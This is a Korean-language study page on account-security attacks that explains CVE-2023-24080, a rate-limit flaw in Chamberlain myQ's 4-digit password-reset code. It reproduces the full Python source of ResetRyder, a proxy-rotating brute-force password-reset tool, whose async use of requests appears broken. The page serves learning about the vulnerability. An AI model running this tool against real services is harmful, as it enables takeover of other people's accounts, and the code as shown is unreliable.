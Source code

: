 ```yaml
---
description: 1. 계정 관리
---
```


# 01-계정관리

※ 무작위 대입 공격(Brute Force Attack): 특정한 암호를 풀기 위해 가능한 모든 값을 대 입하는 공격 방법&#x20;

※ 사전 대입 공격(Dictionary Attack): 사전에 있는 단어를 입력하여 암호를 알아내거나 암호를 해독하는 데 사용되는 컴퓨터 공격 방법



2023년 2월, CVE-2023-24080 취약점을 참고하여 만든 [resetryder](https://github.com/SirCryptic/resetryder) tool을 이용하여 무차별 대입 로그인 통신 과정을 알아보았다.



**CVE-2023-24080이란 무엇인가?**

Chamberlain myQ v5.222.0.32277(iOS)의 비밀번호 재설정 엔드포인트에서는 속도 제한이 없는 취약점이 발견 되었고 이 취약점은 공격자가 무차별 대입 공격을 통해 사용자 계정을 손상시킬 수 있는 취약점이다.



1. 공격자는 피해자의 이메일 계정에 대한 사전 지식이 필요합니다. 또는 이  취약점을 발견한 사람처럼 공격자는 피해자의 계정이 있는지 확인하기 위해 다음 End point에 반복적으로 요청을 할 수 있다.

```
POST /api/Account/ForgotPassword

```

2. 아래는 존재하지 않는 계정인 jim@brackish.io 의 base 64 인코딩 버전이다 . 계정이 있는 경우 이 매개변수는 Location 응답 헤더에 없다 . 피해자의 이메일이 발견되면 계정 탈취는 간단하다. 이 취약점의 핵심은 속도 제한이 없다는 것이다.

```
email=amltQGJyYWNraXNoLmlv
```



3. 이 요청의 본문에는 (다른 매개 변수 중에서) 피해자에게 이메일로 전송되는 재설정 코드가 포함되어 있다.&#x20;

```
Code=5308
```

<figure><img src="../../.gitbook/assets/image.jpg" alt=""><figcaption><p>수천 건의 요청 후 재설정 코드가 적중되면 302 응답</p></figcaption></figure>



재설정 코드는 길이가 4자리에 불과하며 이 End point에는 속도 제한이 없다. 공격자는 자유롭게 이 코드를 무차별 대입하고 피해자의 암호를 재설정 할 수 있다. 이 문제는 2023년 1월 10일에 Chamberlain에 보고되었다.

출처 : [https://nvd.nist.gov/vuln/detail/CVE-2023-24080](https://nvd.nist.gov/vuln/detail/CVE-2023-24080http:/web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/)[
\
http://web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/
](https://nvd.nist.gov/vuln/detail/CVE-2023-24080http:/web.archive.org/web/20230122144550/https://brackish.io/chamberlain-myq-account-takeover/)



그러면 이 취약점을 응용하여 만든 툴을 사용해보자

**ResetRyder - Open Source Brute Force Password Reset Tool**

이 있는데 이 Tool이 CVE-2023-24080 취약점을 응용한 툴이다.

<figure><img src="../../.gitbook/assets/image2.jpg" alt=""><figcaption><p><a href="https://github.com/SirCryptic/resetryder">https://github.com/SirCryptic/resetryder</a></p></figcaption></figure>



아래에는 해당 tool의 python3 code이다.

```
import time
import requests
import random
import argparse
import asyncio

# Developer: SirCryptic (NullSecurityTeam)
# Info:      ResetRyder - Brute force password reset tool - By NullSecurityTeam
# Note/s:    Based on CVE-2023-24080 not only just for Chamberlain myQ v5.222.0.32277 (on iOS)
#            This code will work for any web application that has a similar vulnerability.
#            The author of this script is not responsible for any damage caused by the use or misuse of this script. 
#            These PoCs are intended for educational and research purposes only, and should never be used to target or exploit systems without explicit permission from the owner.

password_list_path = ""
username_list_path = ""
reset_password_url = ""
rate_limit_time = 1
proxy_list_path = ""
max_retries = 3
max_timeout = 10
max_concurrent_requests = 10

parser = argparse.ArgumentParser(description="ResetRyder - Brute force password reset tool - By NullSecurityTeam")
parser.add_argument("-p", "--password_list", required=True, help="Path to the password list file")
parser.add_argument("-u", "--username_list", required=True, help="Path to the username list file")
parser.add_argument("-r", "--reset_password_url", required=True, help="Reset password URL")
parser.add_argument("-t", "--rate_limit_time", type=int, default=1, help="Rate limiting time in seconds (e.g., 1)")
parser.add_argument("-x", "--proxy_list", required=True, help="Path to the SOCKS4 proxy list file")
parser.add_argument("-a", "--max_retries", type=int, default=3, help="Maximum number of retries for failed requests")
parser.add_argument("-o", "--max_timeout", type=int, default=10, help="Maximum timeout for requests in seconds")
parser.add_argument("-c", "--max_concurrent_requests", type=int, default=10, help="Maximum number of concurrent requests")
args = parser.parse_args()

password_list_path = args.password_list
username_list_path = args.username_list
reset_password_url = args.reset_password_url
rate_limit_time = args.rate_limit_time
proxy_list_path = args.proxy_list
max_retries = args.max_retries
max_timeout = args.max_timeout
max_concurrent_requests = args.max_concurrent_requests

with open(password_list_path, "r") as f:
    password_list = [line.strip() for line in f]

with open(username_list_path, "r") as f:
    username_list = [line.strip() for line in f]

with open(proxy_list_path, "r") as f:
    proxy_list = [line.strip() for line in f]

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
}

async def reset_password(username, password):
    for i in range(max_retries):
        payload = {"username": username, "new_password": password, "confirm_new_password": password}
        proxy = {"socks4": proxy_list[random.randint(0, len(proxy_list) - 1)]}
        try:
            response = await asyncio.wait_for(requests.post(reset_password_url, headers=headers, data=payload, proxies=proxy, timeout=max_timeout), timeout=max_timeout)
            if "password reset successful" in response.text.lower():
                print(f"Password reset successful for user {username}. New password: {password}")
                return True
            else:
                print(f"Password reset failed for user {username} and password: {password}")
        except:
            pass
    return False

async def main():
    tasks = []
    semaphore = asyncio.Semaphore(max_concurrent_requests)
    async with semaphore:
        for username in username_list:
            for password in password_list:
                task = asyncio.create_task(reset_password(username, password))
                tasks.append(task)
                await asyncio.sleep(rate_limit_time)
    results = await asyncio.gather(*tasks)
    print(f"Total requests: {len(results)}, Successful requests: {sum(results)}")

asyncio.run(main())
```



